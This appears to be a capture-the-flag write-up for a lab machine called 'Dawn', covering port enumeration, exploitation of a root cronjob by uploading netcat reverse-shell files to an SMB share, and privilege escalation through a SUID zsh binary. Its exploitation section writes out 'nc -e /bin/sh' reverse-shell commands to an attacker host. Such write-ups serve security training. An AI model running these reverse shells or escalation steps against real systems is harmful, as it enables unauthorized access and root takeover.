



# Dawn

**IP Address:** 192.168.72.11

## Enumeration
### Open Ports
| Port #| Service | Details  |
|:------|:---------|:---------|
| 80    | http     | Apache httpd 2.4.38 ((Debian)) |
| 139   | http     | Samba smbd 3.X - 4.X (workgroup: WORKGROUP) |
| 445   | http     | Samba smbd 4.9.5-Debian (workgroup: WORKGROUP) |
| 3306  | mysql    | MySQL 5.5.5-10.3.15-MariaDB-1 |

/ITDEPT/web-control ^[[0m                                                                                        
2020/08/12 09:06:01 ^[[31;1mCMD: UID=0    PID=977    | /bin/sh -c chmod 777 /home/dawn/ITDEPT/product-control ^[[0m  
/home/ganimedes/phobos
product-control
web-control

## Exploitation
### Exploit Details (Cronjob)
* **Name** - Cronjob
* **CVE** - N/A
* **Module** - N/A
* **Disclosed** - N/A
* **References**
  * N/A

A Log file was found at http://192.168.76.11/logs/management.log which shows that a regular job is running to execute 2 files. The server also has an SMB share that the files should reside on however they are missing. By creating some reverse shells and uploading them we can get a connection back. 

Commands
```bash
echo "nc -e /bin/sh $lhost $lport" > product-control
echo "nc -e /bin/sh $lhost $lport" > web-control
cat product-control
cat web-control
```


Commands
```bash
smbclient //$ip/ITDEPT
put product-control
put web-control
```



Commands
```bash
python -c 'import pty;pty.spawn("/bin/bash")'
whoami
cat local.txt
```



## Privilege Escalation
### Exploit Details (SUID (zsh)
* **Name** - SUID (zsh)
* **CVE** - N/A
* **Module** - N/A
* **Disclosed** - N/A
* **References**
  * https://gtfobins.github.io/gtfobins/zsh/

Commands
```bash
/usr/bin/zsh
whoami
cat /root/proof.txt
```

